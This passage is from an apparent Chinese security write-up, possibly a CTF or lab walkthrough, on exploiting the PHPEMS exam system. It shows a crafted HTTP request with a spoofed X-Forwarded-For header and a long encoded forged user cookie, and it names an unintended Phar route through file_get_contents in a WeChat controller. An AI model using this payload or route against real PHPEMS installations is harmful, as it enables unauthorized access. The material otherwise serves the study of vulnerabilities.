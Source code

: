 由于是以这种形式传的Cookie

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-8f98a6be8d65f790031eefa7e25f438098e8c284.png)​

所以报文为

```xml
GET /index.php HTTP/1.1
Host: exam.cyan.wetolink.com
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
X-FORWARDED-FOR: 127.0.0.1
Cookie: exam_currentuser=%2595%259Ces%25AF%25D9lon%2586%25D9%25C8%25D7%25D6%25A0%25A1%25A2%25CA%2594X%259D%25AC%259Cio%2585b%2597hj%2597%2597e%2594f%255Bo%25CFlfo%25B3%25A0%2594%2598%259DY%2582%257C%25B1u%2583%25B5%2595%25D5%2595%25A8%25D6%259A%25D4%25A3%255B%259F%2597n%25DD%25A6sm%25A0T%25A9%2599%25D7%25D9%25CC%25D3%25D1%25A0%2596V%259C%25A3p%2599s%2584af%2594b%2596fj%2587%259F%25A7%259CisV%25D6%2596%25A5%25A7%25D5%25D2%2585%259F%25B2qcg%259BR%2586%25AA%2589%25A7%257D%2588%25BF%25A1%25C9%25A4%25AC%25D6%25D0V%259Ces%25AF%25D9lgk%259E%2588c%25B4%25AB%2587w%2581%25B4%258C%25A6%25C6%25A8%25D5%25A1%25A1c%2595%25C7Wt%25B4%259Ee%2594m%255B%2584%25AE%2582%257B%2581%25B7%25C2%25D3%25C9%25D3%259B%25A1V%259Bap%25DD%25AC%259Cbe%259DSe%2585%2581%25B5%25A9%2581%25B5%258F%25A9%2599%25D6%2596%25A54%25D0%25CF%25D1%25CF%25CC%259BTo%25CAjf%259D%25B6%25D5jm%259DS%25D9%2596%259B%25D1%25C9%25A4%25D4%2598%255Bo%25D9lnl%259E%2588%25DB%2596%25C2%25AC%25A5%2599%25D3P%25A9%25C7%25AD%2582%25A5%25A8%25C8%25A3%25D5%2596%25AC%25D8%25DB%25A3%25D4%2597vV%25CBcf%2595%25C8%25C9%2596%259D%2597p%2594%2595%2596i%2597%25C4%259B%25C7ek%25C8a%259Al%259F%2597%2594%259A%259Akl%2599%2588R%25AD%259C%25C9%25D8%25C8%2584%25D8%25AA%2597%25A6%25CF%2591%25A3%25C7v%2584%25A0%259A%25C4%2595%25D2%259E%25A7%2587%259FW%258F%2560%255Bo%25E3%25A5pf%259E%2588%25C7%25C6%2585r%2581n%2592bp%2584%2589%25AA%2580z%25B0%2584%25C1%25A5%259E%25D5%25C8%25A3%2584mjn%25E1%25A5pf%2594%25A0%2585d%25B3%257F%2582y%25AE%2583%2592%25D2%259E%25D2%2594%25A4c%259D%25CE%25A3%25A4%25CE%25C8V%259D%259Csd%25A1%25AF%25B3%25B1
Referer: http://phpems.xyz/index.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
```

‍

‍

### Phar(非预期)

```xml
app/weixin/controller/index.api.php中的file_getcontents
```

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-e115e35d1838e610a7b8bf35474310365fa79c60.png)​

‍

直接去访问下这股路由发现返回了以下信息

```xml

        ]]&gt;
    &lt;/ToUserName&gt;
    &lt;FromUserName&gt;
        &lt;![CDATA[

        text

        信息已接收

        1707039415

        0

```
